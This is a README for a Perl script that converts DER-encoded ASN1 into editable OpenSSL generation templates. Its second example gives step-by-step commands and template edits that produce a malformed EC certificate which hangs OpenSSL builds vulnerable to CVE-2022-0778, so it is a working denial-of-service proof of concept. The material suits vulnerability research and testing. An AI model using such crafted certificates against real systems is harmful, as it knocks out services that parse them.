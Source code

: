 # ASN1 templating for fun and profit

## Description

This tool takes a DER encoded ASN1 structure and outputs the equivalent textual
description that can be modified and later be fed to ASN1_generate_nconf(3) in
order to build the equivalent DER encoded ASN1 structure.

It's similar to https://github.com/google/der-ascii .

## Example #1

Take an arbitrary DER encoded certificate:

```bash
$ wget -o /dev/null https://pki.goog/repo/certs/gtsr1.der
```

Convert it to an ASN1_generate_nconf(3) compatible textual description:

```bash
$ ./asn1template.pl gtsr1.der > gtsr1.tpl 
```

Convert it back to DER encoded ASN1 with ASN1_generate_nconf(3):

```bash
$ openssl asn1parse -genconf gtsr1.tpl -noout -out gtsr1_new.der
```

Original and recreated DER files are identical:
```bash
$ diff gtsr1.der gtsr1_new.der 
$ echo $?
0
```

## Example #2

This example is related to CVE-2022-0778. It is based on
https://github.com/drago-96/CVE-2022-0778 and this particular PR
https://github.com/drago-96/CVE-2022-0778/pull/4 .

Following the details presented in https://github.com/drago-96/CVE-2022-0778/pull/4 , first, generate a new EC private key:
```bash
$ openssl ecparam -out ec.key -name prime256v1 -genkey -noout -param_enc explicit -conv_form compressed
```

Then use it to generate a self signed certificate:
```bash
$ openssl req -new -x509 -key ec.key -out cert.der -outform DER -days 360 -subj "/CN=TEST/"
```

We can then generate a template from this certificate:
```bash
$ ./asn1template.pl cert.der > cert.tpl
$ cat cert.tpl
asn1 = SEQUENCE:seq1
[seq1]
field2 = SEQUENCE:seq2
field3 = SEQUENCE:seq3
field4 = FORMAT:HEX,BITSTRING:30450221008EF9E6F07C16DCAD2DAA92FACE41CEF56121EB4A230114CE7178B51937CDA20502203180533CA0986C908CD120489FDD29F6B8A3FF75C1393E4B06B2F7C4F82F0B97
[seq2]
field5 = IMPLICIT:0C,SEQUENCE:seq4
field6 = INTEGER:0x57D640F4EDDEAE0E65C364F8606F8401E73470C2
field7 = SEQUENCE:seq5
field8 = SEQUENCE:seq6
field9 = SEQUENCE:seq7
field10 = SEQUENCE:seq8
field11 = SEQUENCE:seq9
field12 = IMPLICIT:3C,SEQUENCE:seq10
[seq4]
field13 = INTEGER:0x02
[seq5]
field14 = OBJECT:ecdsa-with-SHA256
[seq6]
field15 = SET:seq11
[seq11]
field16 = SEQUENCE:seq12
[seq12]
field17 = OBJECT:commonName
field18 = FORMAT:UTF8,UTF8String:"TEST"
[seq7]
field19 = UTCTIME:220320211232Z
field20 = UTCTIME:230315211232Z
[seq8]
field21 = SET:seq13
[seq13]
field22 = SEQUENCE:seq14
[seq14]
field23 = OBJECT:commonName
field24 = FORMAT:UTF8,UTF8String:"TEST"
[seq9]
field25 = SEQUENCE:seq15
field26 = FORMAT:HEX,BITSTRING:02DB70822B848189FDFE177D9E0CED95CCEFB7B428F76C88F4BE120A421DA68C68
[seq15]
field27 = OBJECT:id-ecPublicKey
field28 = SEQUENCE:seq16
[seq16]
field29 = INTEGER:0x01
field30 = SEQUENCE:seq17
field31 = SEQUENCE:seq18
field32 = FORMAT:HEX,OCTETSTRING:046B17D1F2E12C4247F8BCE6E563A440F277037D812DEB33A0F4A13945D898C2964FE342E2FE1A7F9B8EE7EB4A7C0F9E162BCE33576B315ECECBB6406837BF51F5
field33 = INTEGER:0xFFFFFFFF00000000FFFFFFFFFFFFFFFFBCE6FAADA7179E84F3B9CAC2FC632551
field34 = INTEGER:0x01
[seq17]
field35 = OBJECT:prime-field
field36 = INTEGER:0xFFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF
[seq18]
field37 = FORMAT:HEX,OCTETSTRING:FFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFC
field38 = FORMAT:HEX,OCTETSTRING:5AC635D8AA3A93E7B3EBBD55769886BC651D06B0CC53B0F63BCE3C3E27D2604B
field39 = FORMAT:HEX,BITSTRING:C49D360886E704936A6678E1139D26B7819F7E90
[seq10]
field40 = SEQUENCE:seq19
[seq19]
field41 = SEQUENCE:seq20
field42 = SEQUENCE:seq21
field43 = SEQUENCE:seq22
[seq20]
field44 = OBJECT:X509v3 Subject Key Identifier
field45 = FORMAT:HEX,OCTETSTRING:04145B14DB3777D5A9F9D9EBFFE5021C77F9BCAFC676
[seq21]
field46 = OBJECT:X509v3 Authority Key Identifier
field47 = FORMAT:HEX,OCTETSTRING:301680145B14DB3777D5A9F9D9EBFFE5021C77F9BCAFC676
[seq22]
field48 = OBJECT:X509v3 Basic Constraints
field49 = BOOLEAN:true
field50 = FORMAT:HEX,OCTETSTRING:30030101FF
[seq3]
field51 = OBJECT:ecdsa-with-SHA256
```

Change some of the values in the template according to https://github.com/drago-96/CVE-2022-0778 and https://github.com/drago-96/CVE-2022-0778/pull/4 :
```bash
$ diff -u cert.tpl cert_new.tpl
--- cert.tpl	2022-03-20 12:25:32.187000000 +0100
+++ cert_new.tpl	2022-03-20 12:32:48.878000000 +0100
@@ -48,11 +48,11 @@
 field34 = INTEGER:0x01
 [seq17]
 field35 = OBJECT:prime-field
-field36 = INTEGER:0xFFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFF
+field36 = INTEGER:0x2B9
 [seq18]
-field37 = FORMAT:HEX,OCTETSTRING:FFFFFFFF00000001000000000000000000000000FFFFFFFFFFFFFFFFFFFFFFFC
-field38 = FORMAT:HEX,OCTETSTRING:5AC635D8AA3A93E7B3EBBD55769886BC651D06B0CC53B0F63BCE3C3E27D2604B
-field39 = FORMAT:HEX,BITSTRING:C49D360886E704936A6678E1139D26B7819F7E90
+field37 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000017
+field38 = FORMAT:HEX,OCTETSTRING:0000000000000000000000000000000000000000000000000000000000000000
+field39 = FORMAT:HEX,BITSTRING:0308
 [seq10]
 field40 = SEQUENCE:seq19
 [seq19]
```

Then convert the template back to DER encoded ASN1:
```bash
$ openssl asn1parse -genconf cert_new.tpl -noout -out cert_new.der

```

Finally, try to display this certificate with a CVE-2022-0778 vulnerable OpenSSL installation:
```bash
$ openssl x509 -inform DER -in cert_new.der -noout -text
```

## Limitations
This tool has the same limitations as ASN1_generate_nconf(3). For instance, it
does not support indefinite length encoding.
This crappy script was written many years ago as a quick and dirty PoC.

